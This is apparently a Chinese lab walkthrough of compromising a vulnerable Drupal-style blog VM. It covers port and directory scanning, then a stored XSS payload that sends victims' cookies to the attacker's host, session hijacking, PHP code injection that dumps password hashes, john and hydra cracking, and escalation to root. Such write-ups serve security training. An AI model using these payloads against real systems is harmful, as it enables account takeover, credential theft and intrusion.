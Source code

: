 
# 环境
攻击机IP：192.168.1.37<br />目标机IP：192.168.1.3


# 实战

## 端口扫描
```
nmap -sV -p- 192.168.1.3
```
![image.png](_img\assets/1657691178383-dd0242b4-3509-43d4-89c6-d3e223de37c4.png)

访问80端口HTTP服务
![image.png](_img\assets/1657691197709-5c0aa557-956f-422c-bb9b-74093913e27e.png)

查看网页源码<br />找到了一个flag没有其他的什么信息
![image.png](_img\assets/1657691210558-6dd9ec3f-d679-424f-a4e6-fb5d7b2d10c8.png)


## 目录扫描
使用dirb扫描
```
dirb http://192.168.1.3
```

扫描出来的有用文件有
```
+ http://192.168.1.3/phpinfo.php (CODE:200|SIZE:47653)
+ http://192.168.1.3/robots.txt (CODE:200|SIZE:1629)
```

访问`http://192.168.1.3/phpinfo.php`得到一个flag
![image.png](_img\assets/1657691225659-db7916e7-12ba-45b3-ad20-84ffcfc8fd22.png)

访问`http://192.168.1.3/robots.txt`得到一个flag
![image.png](_img\assets/1657691232820-25648485-230d-428a-be5b-9315db545d19.png)


## 漏洞发现
注册一个账号
![image.png](_img\assets/1657691241362-3a93a0ae-b011-4c12-bf91-34a7320a4692.png)

注册账号后登录，在首页的文章下面可以进行评论，尝试是否存在XSS漏洞
![image.png](_img\assets/1657691248370-cc2ffb80-7666-4197-bdfe-75b968a42934.png)

成功弹窗
![image.png](_img\assets/1657691255933-32c0005b-7320-43f7-a8e3-cda625050783.png)


## 漏洞利用
存在XSS漏洞，我们可以利用该XSS漏洞来获取其他用户的session_id，然后利用得到的session_id登录他人的账户以获得更高的用户权限

在网页中我们可以看到有两个高管
![image.png](_img\assets/1657691265531-78047bfc-6032-452a-aabc-2ec5633bde1c.png)

在他们的帖子下面进行留言
```
<script>
var request=new XMLHttpRequest();
var redirect_url="http://192.168.1.37:8080/"+document.cookie;
request.open("GET",redirect_url);
request.send();
</script>
```
![image.png](_img\assets/1657691274503-82ab7238-02e3-4923-b6c5-6f69a87ca1d1.png)

在攻击机上开启web服务
```
python -m SimpleHTTPServer 8080
```
![image.png](_img\assets/1657691284076-9fa54763-1129-4ac2-9308-30bbd975973b.png)

给史蒂夫发送邮件引导他查看文章
![image.png](_img\assets/1657691291590-b03084be-da4f-49cd-ad49-bef3096d6e79.png)

回到攻击机可以看到成功得到session_id
```
SESScc9d4028d80b7d9c2242cf5fc8cb25f2=mkoi1627khd9cjdh5m0e002jh3;%20has_js=1
```
![image.png](_img\assets/1657691301920-b1b483d1-86c6-4ca3-a2fb-00b7c95939b2.png)

访问网站首页并使用burpsuite抓包将cookie更改为我们抓取到的cookie
![image.png](_img\assets/1657691317179-432814f8-87ac-4f66-99c6-aa9460f08141.png)

成功以steve的身份登录
![image.png](_img\assets/1657691324359-4a5d8a4b-ba20-4d39-a99b-c16e48e70eb0.png)

左上角选择再添加文章，这里也需要抓包替换cookie不然的话我们后面的身份还是自己
![image.png](_img\assets/1657691332992-ad3ad389-ddc5-4268-a0b3-f9053f2e41e1.png)

![image.png](_img\assets/1657691339564-947b6716-df08-426c-944c-2fd36f08cf28.png)

在 input format 中选择 PHP code，并添加如下代码
```
<?php
$result = db_query('select name,pass from users');
while($record = db_fetch_object($result))
{
print $record->name . ":" . $record->pass . "<br/>";
}
?>
```
![image.png](_img\assets/1657691348389-9937565f-e8b3-4602-8869-2d6a181948b7.png)

提交时同样需要替换cookie，提交后成功得到账户和密码的哈希值
![image.png](_img\assets/1657691357011-46377832-5612-4b54-9e3b-d4f1113bbb2f.png)

使用john爆破密码
```
john -w=/usr/share/wordlists/rockyou.txt -form=raw-md5 password.txt
```
![image.png](_img\assets/1657691365845-6add6a08-9d7f-48e5-8763-a9bf4f28c061.png)

获取用户名，每一个用户在 user 目录下对应一个 ID
![image.png](_img\assets/1657691372933-cc66e160-2ab4-4532-b093-8d3a4d3e5752.png)

将得到的用户名和密码分别保存使用hydra进行爆破
```
hydra -L user.txt -P password.txt -t 4 ssh://192.168.1.3
```
![image.png](_img\assets/1657691381148-1e0a0edc-457f-4545-8a47-5e1e6809cf14.png)


## 提权
使用ssh登录jharraway用户，得到一个flag，无法提权到root用户
![image.png](_img\assets/1657691388219-2425fc52-aa4c-492e-a4fb-baafef56575a.png)

查看passwd文件得到另一个flag
![image.png](_img\assets/1657691395638-6ebfa36e-f0f3-48b6-96e7-1e2af0e877c9.png)

登录spinkton用户，ssh链接得到一个flag
![image.png](_img\assets/1657691402087-7929646d-bdef-4ab1-ad46-3aa2817d419e.png)

查看权限发现我们拥有所有的root权限，提权成功得到root权限
![image.png](_img\assets/1657691409285-3f4e925f-0d6d-4b27-9227-1bfb412b1815.png)
